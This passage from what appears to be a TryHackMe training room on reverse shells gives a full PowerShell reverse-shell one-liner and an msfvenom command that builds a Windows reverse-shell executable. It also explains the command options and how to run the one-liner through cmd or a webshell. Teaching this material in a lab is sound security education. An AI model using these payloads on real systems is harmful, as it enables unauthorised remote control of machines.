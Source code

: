 This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

In order to use this, we need to replace "<IP>" and "<port>" with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:

For other common reverse shell payloads, Payloads all the Things is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages. It is well worth reading through the linked page to see what's available.

# msfvenom

Msfvenom: the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to generate code for, primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. .exe, .aspx, .war, .py). It's this latter function that we will be making use of in this room. There is more to teach about msfvenom than could ever be fit into a single room, let alone a single task, so the following information will be a brief introduction to the concepts that will prove useful for this room.

The standard syntax for msfvenom is as follows:

msfvenom -p <PAYLOAD> <OPTIONS>

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>


Here we are using a payload and four options:

    -f <format>
        Specifies the output format. In this case that is an executable (exe)
    -o <file>
        The output location and filename for the generated payload.
    LHOST=<IP>
        Specifies the IP to connect back to. When using TryHackMe, this will be your tun0 IP address. If you cannot load the link then you are not connected to the VPN.
    LPORT=<port>
        The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

Staged vs Stageless

Before we go any further, there are another two concepts which must be introduced: staged reverse shell payloads and stageless reverse shell payloads.
